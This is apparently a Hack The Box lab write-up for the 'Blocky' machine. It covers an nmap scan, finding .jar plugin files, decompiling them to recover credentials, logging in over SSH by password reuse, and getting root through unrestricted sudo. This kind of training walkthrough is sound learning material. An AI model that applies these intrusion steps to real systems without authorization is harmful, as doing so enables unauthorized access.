








# HTB - Blocky

#### Ip: 10.10.10.37
#### Name: Blocky
#### Difficulty: Easy

----------------------------------------------------------------------



### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.37 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 13:38 CDT
Nmap scan report for 10.10.10.37
Host is up (0.063s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

Looks like the Ip is forwarding to blocky.htb, so lets add that to our `/etc/hosts` file.

Heading over to the website we find a WordPress site that is under construction:



Looking a bit closer at the site we find a potential username:



Running Feroxbuster for directory fuzzing we find a `/plugins` page:



Which contains 2 .jar files we can download:



Lets inpect these files using jd-gui:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ jd-gui BlockyCore.jar
```



Nice, looks like we've discovered some credentials. These appear to be database credentials, but lets see if either root or the user notch have any password resuse going on for SSH.

### Exploitation

No luck for the root user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh root@10.10.10.37    
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
root@10.10.10.37's password: 
Permission denied, please try again.
```

But the password did work for the notch user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Wed Sep 20 17:14:31 2023 from 10.10.14.4
notch@Blocky:~$ whoami && hostname
notch
Blocky
```
From here we can grab the user.txt flag:



### Privilege Escalation

Running `sudo -l` to see what commands notch can run with elevated permissions, we find they can run absolutely anything with sudo:

```text
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Lets run `sudo /bin/bash` to elevate our permissions in the shell:

```text
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# whoami
root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we can grab the final flag:



Thanks for following along!

-Ryan

-----------------------------------------------------
